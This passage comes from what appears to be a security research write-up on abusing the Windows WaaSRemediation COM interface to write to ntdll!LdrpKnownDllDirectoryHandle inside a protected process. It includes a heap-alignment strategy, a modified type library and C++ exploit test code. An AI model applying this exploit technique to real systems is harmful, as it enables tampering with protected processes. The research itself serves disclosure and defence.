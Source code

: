 That being said, although heap addresses are random, they follow some alignment rules we might be able to exploit. So, I compiled a dataset of 2000 addresses returned by `LaunchDetectionOnly` and I used a simple Excel spreadsheet to determine the best strategy to adopt depending on the handle value we want to write. Remember that this value is something we can determine even though the target process is protected.

I will spare you the boring details, but essentially, the most efficient strategy would be:

1.  If the target handle value is `0x18` plus a multiple of 32 (_e.g._ `0x38`, `0x58`, etc.), write the address exactly at `ntdll!LdrpKnownDllDirectoryHandle` and invoke `LaunchRemediationOnly` twice to clear the five remaining _random_ bytes.
2.  Otherwise, write the address at `ntdll!LdrpKnownDllDirectoryHandle-1` and invoke `LaunchRemediationOnly` once to clear the four remaining _random_ bytes.

Then, it is theoretically just a matter of repeating this until we hit the appropriate value.

## Testing the memory write

Now that we have an exploit strategy, we should implement it and test it. The first step is to create the Type Library. As explained earlier, I simply transformed the two `out` parameters into `[in] ULONGLONG` input values.

```cpp
interface IWaaSRemediationEx : IDispatch {
    [id(0x60020000)]
    HRESULT LaunchDetectionOnly(
                    [in] BSTR bstrCallerApplicationName, 
                    [in] ULONGLONG pbstrPlugins);
    [id(0x60020001)]
    HRESULT LaunchRemediationOnly(
                    [in] BSTR bstrPlugins, 
                    [in] BSTR bstrCallerApplicationName, 
                    [in] ULONGLONG varResults);
};
```

Then, we can use the following code to check whether everything is working as expected. Please note that, for testing purposes, the address of `ntdll!LdrpKnownDllDirectoryHandle` is simply hardcoded here.

```cpp
DWORD64 dwKnownDllDirectoryHandle;
DWORD64 dwLaunchRemediationOnly;
DWORD64 dwLaunchDetectionOnly;
BSTR ClientApplication = SysAllocString(L"");
BSTR Plugins = SysAllocString(L"");
IWaaSRemediationEx* pWaaSRemediationEx;

// Where to write?
dwKnownDllDirectoryHandle = 0x00007fff971dc030;
dwLaunchDetectionOnly = dwKnownDllDirectoryHandle - 1;
dwLaunchRemediationOnly = dwKnownDllDirectoryHandle - 7;

// Create an instance of the object WaaSRemediation
CoCreateInstance(
    CLSID_WaaSRemediation,
    NULL,
    CLSCTX_LOCAL_SERVER,
    IID_PPV_ARGS(&pWaaSRemediationEx)
);

// Write the address returned by SysAllocString at dwLaunchDetectionOnly
pWaaSRemediationEx->LaunchDetectionOnly(
    ClientApplication, 
    dwLaunchDetectionOnly
);

```